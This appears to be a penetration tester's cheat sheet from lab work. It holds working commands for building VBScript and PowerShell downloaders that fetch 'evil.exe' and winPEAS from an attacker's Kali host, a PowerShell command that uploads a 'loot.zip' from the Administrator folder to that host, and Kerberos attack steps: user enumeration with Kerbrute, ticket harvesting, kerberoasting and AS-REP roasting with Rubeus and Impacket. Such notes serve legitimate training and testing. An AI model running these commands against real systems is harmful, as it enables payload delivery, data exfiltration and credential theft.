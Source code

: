 	echo  http.Open "GET", strURL, False >> wget.vbs 
	echo  http.Send >> wget.vbs 
	echo  varByteArray = http.ResponseBody >> wget.vbs 
	echo  Set http = Nothing >> wget.vbs 
	echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs 
	echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs 
	echo  strData = "" >> wget.vbs 
	echo  strBuffer = "" >> wget.vbs 
	echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
	echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
	echo  Next >> wget.vbs 
	echo  ts.Close >> wget.vbs
SAMPLE USAGE:
`cscript wget.vbs http://$kaliIP/evil.exe evil.exe` 

### Similar script builder for powershell:
	echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
	echo $url = "http://[IP]/evil.exe" >>wget.ps1 
	echo $file = "new-exploit.exe" >>wget.ps1 
	echo $webclient.DownloadFile($url,$file) >>wget.ps1

Usage: 
	- `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1` 
	- `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://$kaliIP/winPEAS.bat, 'winpeas.bat')`

### exe2hex
exe2hex converts to a script that recreates the file from hex string via non-interactive methods:

`powershell.exe (New-Object System.Net.WebClient).UploadFile('C:\Users\Administrator\loot.zip', 'http://$kaliIP$/20220204195540_loot.zip')`

## Kerberos 
You can use Kerbrute to enumerate accounts without ever having to exploit a machine:
`kerbrute userenum --dc [IP] -d CONTROLLER.local /home/kali/Documents/TryHackMe/Labs/Attacking_Kerberos/User.txt`
-Note you will need to add an entry to your /etc/hosts file.

### Rubeus (local)
https://github.com/GhostPack/Rubeus
- `Rubeus.exe harvest /interval:30` - to harvest tickets
- `rubeus.exe kerberoast`-  to get hashes of kerberoastable accounts.  Use bloodhound to see if they are worth anything.
- `Rubeus.exe asreproast`
	- can be cracked with hashcat
	- YOU MAY NEED TO ADD 23$ TO THE HASH!! PAY ATTENTION TO THE FORMAT!!!

### Impacket (remote)
Impacket-GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip [IP] -request
Bash script: `for user in $(cat users.txt); do impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 $domain/${user} | grep -v Impacket; done`
- where $domain is just the htb of htb.local
